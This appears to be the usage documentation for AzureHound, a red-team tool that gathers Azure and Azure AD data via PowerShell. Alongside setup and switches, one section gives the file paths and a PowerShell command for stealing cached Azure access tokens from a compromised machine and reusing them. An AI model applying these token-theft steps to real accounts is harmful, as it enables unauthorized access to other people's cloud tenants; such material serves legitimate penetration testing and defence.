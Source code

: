 AzureHound
==========

AzureHound uses the "Az" Azure PowerShell module and "Azure AD" PowerShell
module for gathering data within Azure and Azure AD. 

If the modules are not installed, you can use the the following commands to installed them. 
The modules require PowerShell version 5.1 and greater. To check your PowerShell version,
use "$PSVersionTable.PSVersion". 

:: 

    Install-Module -Name Az -Scope CurrentUser -Repository PSGallery -Force
    Install-Module -Name AzureAD -Scope CurrentUser -Repository PSGallery -Force

You then need to import the modules

::

    Import-Module Az
    Import-Module Azuread

It’s also recommended to first set your TLS
version to 1.2 with this command to prevent any issues while installing these
modules:

::

    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

Once the Az module is installed, you can import AzureHound by using the command:

::

    Import-Module C:\path\to\AzureHound.ps1

Next, you must login to Azure PowerShell using the command:

::

    Connect-AzAccount

This will bring up an interactive page to login into Azure. Once successfully logged
into Azure, it will print your active subscription, account name, and Tenant ID.

You must also do the same for connecting to Azure AD:

::

    Connect-AzureAD

It is also possible to steal the access tokens from a compromised machine if that
machine has been used to login to Azure PowerShell before. Copy the existing files:

::

    C:\users\[Username]\.azure\AzureRmContextSettings.json
    C:\users\[Username]\.azure\TokenCache.dat

And place them in your own .azure folder. Re-launch PowerShell and the token will
now be used. 

For stealing AzureAD tokens, the tokens are cached in one of the module’s DLL files
and requires the PowerShell process context in order to access the tokens. They can be
stolen using the command:

::

    $token = [Microsoft.Open.Azure.AD.CommonLibrary.AzureSession]::AccessTokens['AccessToken']
    $token.AccessToken

You can then decode this JWT token to gather the UserPrincipalName and TenantID by
copy and pasting it into the JWT decoder.

To use AzureHound, you can invoke it using the command "Invoke-AzureHound"

By default, AzureHound will output the results to a file called "[timestamp]-azurecollection.zip"
in the directory that AzureHound is run from. This can be changed using the "-OutputDirectory"
switch, e.g. "Invoke-AzureHound -OutputDirectory "C:\temp\results""

AzureHound supports a few switches, as shown below:

::

    -Install | Installs the PowerShell modules
    -TenantId xxxx-xxxx-xxxx-xxxx | Gather using a specific tenant Id instead of using the current one
    -OutputDirectory "C:\path\to\destination\folder" | Outputs the results to a custom directory
